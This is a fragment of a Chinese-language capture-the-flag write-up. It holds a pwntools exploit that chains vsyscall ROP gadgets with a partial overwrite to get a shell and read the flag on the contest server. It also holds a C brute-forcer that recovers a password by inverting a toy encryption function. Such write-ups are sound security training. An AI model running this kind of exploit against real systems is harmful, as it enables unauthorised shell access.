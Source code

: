 ```
        target.get_flag_2(315693261054);
    }
}
```

## 无法利用的漏洞
ROP2vsyscall，且栈上有未被清除的TEXT段地址，直接低字节覆盖
```python
from pwn import *
import time

context.log_level = "debug"
while True:
	time.sleep(10)
	io = remote("202.38.93.241",10014)	
	io.sendlineafter("token:","")
    #io = process("./impossible")
	#gdb.attach(io)
	try:
		io.recvline()
		io.recvline()

		io.send(p64(0xffffffffff600000)*27+"\x6B\x49")
		io.recvline()
		io.sendline("$0\x00")#这里用/bin/sh出问题了，用这个代替一下

		io.sendline("cat flag")
		print(io.recvrepeat(3))
		break
	except	EOFError:
		io.close()
		continue
```

## 没有 BUG 的教务系统
### 1
看源码可以得到加密函数，然后已知最后一位为`\x00`，从后向前爆破即可
```c
#include <stdio.h>
char a[] = "\x44\x00\x02\x41\x43\x47\x10\x63\x00";

int main()
{
    char temp_password[10] = {0};
    int possible = 0;
    for (int i = 7; i >= 0; i--)
    {
        for (int j = 0; j <= 127; j++)
            if (a[i] == (((j | temp_password[i + 1]) & ~(j & temp_password[i + 1]) | i) & ~((j | temp_password[i + 1]) & ~(j & temp_password[i + 1]) & i)))
            {
                temp_password[i] = j;
                possible++;
                break;
            }
    }
    if (possible > 7)
        printf("%s\n", temp_password);
    return 0;
}
```